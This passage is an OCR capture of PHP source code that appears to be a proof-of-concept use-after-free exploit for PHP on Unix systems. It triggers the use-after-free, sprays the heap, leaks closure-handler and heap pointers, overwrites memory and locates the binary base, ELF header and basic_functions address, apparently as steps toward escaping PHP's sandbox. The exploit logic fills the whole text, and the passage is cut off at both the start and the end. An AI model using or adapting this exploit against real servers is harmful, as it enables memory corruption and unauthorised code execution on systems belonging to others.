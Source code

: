 ```
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
        $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

    trigger_uaf('x');
    $abc = $backtrace[1]['args'][0];

    $helper = new Helper;
    $helper->b = function ($x) { };

    if(strlen($abc) == 79 || strlen($abc) == 0) {
        die("UAF failed");
    }

    $closure_handlers = str2ptr($abc, 0);
    $php_heap = str2ptr($abc, 0x58);
    $abc_addr = $php_heap - 0xc8;

    write($abc, 0x60, 2);
    write($abc, 0x70, 6);

    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

```